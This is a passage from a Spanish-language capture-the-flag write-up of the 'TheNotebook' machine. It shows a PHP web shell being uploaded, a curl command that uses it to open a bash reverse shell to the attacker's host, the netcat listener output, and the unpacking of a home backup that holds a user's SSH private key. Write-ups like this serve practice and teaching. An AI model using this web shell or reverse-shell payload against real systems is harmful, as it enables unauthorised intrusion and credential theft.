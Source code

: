 Como administradores, tenemos permitido subir archivos, vamos a probar subir el siguiente archivo php.

```php
<?php echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"; ?>
```


![](/assets/images/TheNoteBook/img6.png)

El archivo se sube correctamente, lo que significa que podemos ejecutar comandos a nivel de sistema.

```bash
❯ curl -G "http://10.10.10.230/119992d27a18248f8151169692bb3ab7.php" --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.16.6/443 0>&1'"
```


### Privesc To Noah

Si miramos nuestro listener, podemos ver que tenemos una shell. Como siempre, la haremos el tratamiento de la tty para que sea 100% funcional.

```bash
❯ nc -lvvp 443
listening on [any] 443 ...
10.10.10.230: inverse host lookup failed: Unknown host
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.230] 57406
bash: cannot set terminal process group (1103): Inappropriate ioctl for device
bash: no job control in this shell
www-data@thenotebook:~/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@thenotebook:~/html$
```

Si enumeramos un poco, podemos ver que hay un backup del directorio home en "/var/backups". Vamos a copiarlo a /tmp y vamos a descomprimirlo.

```bash
www-data@thenotebook:/tmp$ tar xvf home.tar.gz 
home/
home/noah/
home/noah/.bash_logout
home/noah/.cache/
home/noah/.cache/motd.legal-displayed
home/noah/.gnupg/
home/noah/.gnupg/private-keys-v1.d/
home/noah/.bashrc
home/noah/.profile
home/noah/.ssh/
home/noah/.ssh/id_rsa
home/noah/.ssh/authorized_keys
home/noah/.ssh/id_rsa.pub
```
